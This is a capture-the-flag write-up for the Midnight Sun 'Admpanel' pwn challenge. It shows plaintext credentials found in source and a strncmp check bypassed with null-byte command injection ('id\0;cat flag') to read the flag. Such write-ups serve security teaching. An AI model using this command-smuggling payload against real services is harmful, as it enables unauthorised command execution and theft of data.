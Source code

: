 # Admpanel, Pwn, 58pts

## Problem

![Screen caption](admpanel0.png)


## Solution

When we connect to ```admpanel-01.play.midnightsunctf.se 31337```, we can see simple admin panel:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 >
```

We can't execute any command, first we need to login.
We can find username and password saved in plaintext in source code:


![Screen caption](admpanel1.png)


After login in, we can execute command, but there is restriciton to only one command: `id`:

![Screen caption](admpanel2.png)


A line in code marked in green is where the condition is checked. Let's take a look at `strncmp()` C function documentation:

```
$ man strncmp


STRCMP(3)                BSD Library Functions Manual                STRCMP(3)

NAME
     strcmp, strncmp -- compare strings

LIBRARY
     Standard C Library (libc, -lc)

SYNOPSIS
     #include <string.h>

     int
     strcmp(const char *s1, const char *s2);

     int
     strncmp(const char *s1, const char *s2, size_t n);

DESCRIPTION
     The strcmp() and strncmp() functions lexicographically compare the null-terminated strings s1 and s2.

     The strncmp() function compares not more than n characters.  Because strncmp() is designed for comparing strings rather than binary data, characters that appear after a `\0'
     character are not compared.

RETURN VALUES
     The strcmp() and strncmp() functions return an integer greater than, equal to, or less than 0, according as the string s1 is greater than, equal to, or less than the string s2.
     The comparison is done using unsigned characters, so that `\200' is greater than `\0'.

SEE ALSO
     bcmp(3), memcmp(3), strcasecmp(3), strcoll(3), strxfrm(3), wcscmp(3)

STANDARDS
     The strcmp() and strncmp() functions conform to ISO/IEC 9899:1990 (``ISO C90'').

BSD                            October 11, 2001                            BSD
(END)

```

As we can see, `strncmp()` compares strings as long as the character is not `\0` (NULL).
So we can inject any command we want to execute buy terminating `id` with NULL character:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id\0;ls -l
total 24
-rwxr-x--- 1 root ctf 14408 Apr  3 13:09 chall
-r--r----- 1 root ctf    41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf    71 Apr  2 21:20 redir.sh
 > 2
  Command to execute: id\0;cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
 >
```

And that's all - flag is **midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}**
